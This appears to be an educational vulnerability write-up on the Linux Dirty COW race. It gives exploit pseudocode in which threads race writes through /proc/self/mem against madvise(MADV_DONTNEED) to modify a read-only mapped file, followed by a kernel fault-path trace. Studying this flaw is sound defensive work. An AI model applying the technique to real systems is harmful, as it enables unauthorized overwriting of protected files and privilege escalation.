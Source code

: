 
## pseudocode
```c
Main:
    fd = open(filename, O_RDONLY)
    fstat(fd, &st)
    map = mmap(NULL, st.st_size , PROT_READ, MAP_PRIVATE, fd, 0)
    start Thread1
    start Thread2
    
Thread1：
    f = open("/proc/self/mem", O_RDWR)
    while (1):
        lseek(f, map, SEEK_SET)
        write(f, shellcode, strlen(shellcode))
        
Thread2：
    while (1):
        madvise(map, 100, MADV_DONTNEED)
```

Firstly we open the **readonly** file `foo` and use flag `MAP_PRIVATE` to map it into memory, this is for creating a private **copy-on-write** mapping.
Updates to the mapping are not visible to other processes mapping the same file, and are not carried through to the underlying file.

Then we open two thread:
1. write to the mapping region using COW
2. use `madvise(MADV_DONTNEED)` system call to release the memory region, in order to interfere with another thread's COW process

# Vulnerability analysis
When we using `mmap` to map the region using `MAP_PRIVATE` flag, when we write to the file, we will write to the mappings region create by COW machenism, and the original files won't be affected.

```
faultin_page
  handle_mm_fault
    __handle_mm_fault
      handle_pte_fault
        do_fault <- pte is not present
	  do_cow_fault <- FAULT_FLAG_WRITE
	    alloc_set_pte
	      maybe_mkwrite(pte_mkdirty(entry), vma) <- mark the page dirty but keep it RO 
# Returns with 0 and retry
follow_page_mask
  follow_page_pte
    (flags & FOLL_WRITE) && !pte_write(pte) <- retry fault
faultin_page
  handle_mm_fault
    __handle_mm_fault
      handle_pte_fault
        FAULT_FLAG_WRITE && !pte_write
	  do_wp_page
	    PageAnon() <- this is CoWed page already
	    reuse_swap_page <- page is exclusively ours
	    wp_page_reuse
	      maybe_mkwrite <- dirty but RO again
	      ret = VM_FAULT_WRITE
((ret & VM_FAULT_WRITE) && !(vma->vm_flags & VM_WRITE)) <- we drop FOLL_WRITE
# Returns with 0 and retry as a read fault
cond_resched -> different thread will now unmap via madvise
follow_page_mask
  !pte_present && pte_none
```
